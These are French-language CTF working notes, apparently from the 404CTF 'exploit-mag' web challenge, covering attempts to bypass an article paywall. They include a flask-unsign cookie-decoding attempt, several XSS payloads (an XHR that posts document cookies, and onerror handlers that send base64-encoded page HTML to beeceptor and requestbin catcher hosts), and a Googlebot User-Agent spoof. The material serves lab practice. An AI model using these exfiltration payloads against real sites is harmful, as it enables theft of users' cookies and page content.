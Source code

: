 il y a un paywall sur les articles, go l'exploser

le contenu ne semble pas charge et masque, donc faut aller voir plus loin

-> bouton payer -> no a robot confirm box

avant, j'avais pas vu les class blur qui demasque le contenu, mais c du lorem ipsum

----

bon, on unsign la session ??

install de python + pip install flask-unsign

```
flask-unsign --decode --cookie '1999bffe-c6d3-4ed6-b8f8-0d47d4530528.rFQYrKM1ZTeyNoJ5Xh_EKt18ZRw'
```
output
```
[!] Failed to decode cookie, are you sure this was a Flask session cookie? 'utf-8' codec can't decode byte 0xd7 in position 0: invalid continuation byte
```

ok, c'etait un cookie de session pour ctf.404ctf.fr ...


Il ne semble pas etre possible de compromettre le slug dans l'URL


Ok, on passe a l'injection XSS
-> le captcha a une checkbox avec un onclick, qu'est-ce qu'on peut en faire ?

```
setTimeout(function() {
const XHR=new XMLHttpRequest();
let urlEncodedDataPairs = ['titre=admin cookie', 'message=' + (document.cookies === '' ? 'nop' : document.cookies)];
let urlEncodedData = urlEncodedDataPairs.join("&").replace(/%20/g, "+");
XHR.open("POST", "http://challenge01.root-me.org/web-client/ch18/");
XHR.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
XHR.send(urlEncodedData);
}, 1000);
```
https://abenevaut.free.beeceptor.com
```
setTimeout(function() {const XHR=new XMLHttpRequest();XHR.open("GET", "https://exploit-mag.challenges.404ctf.fr/news/records-inoubliables");XHR.send();}, 1000);
```


-- exfiltration de rien

https://abenevaut.free.beeceptor.com?html=
window.top.location='//abenevaut.free.beeceptor.com?html='.concat(btoa(encodeURIComponent(document.body.innerHTML)))
onerror="window.top.location=%27abenevaut.free.beeceptor.com?html=%27.concat(btoa(encodeURIComponent(document.body.innerHTML)))"
onerror="window.top.location=%27requestbin.cn/16t6uuk1?html=%27.concat(btoa(encodeURIComponent(document.body.innerHTML)))"


-- On repart sur le XHR mais sur la meme url
window.lol = function() {
var xhr = new XMLHttpRequest();
xhr.open("GET", "/news/les-secrets-de-la-preparation-mentale/", false);
xhr.send(null);
console.log(xhr.responseText);
}


-- si j'inject une image est-ce qu'il y a moyen de recuperer une session ?




```
GET https://exploit-mag.challenges.404ctf.fr/news/les-secrets-de-la-preparation-mentale/
Content-Type: application/json
Accept: application/json

###

GET https://exploit-mag.challenges.404ctf.fr/news/dataleak-404-ctf/
User-Agent: Googlebot/2.1 (+http://www.google.com/bot.html)
```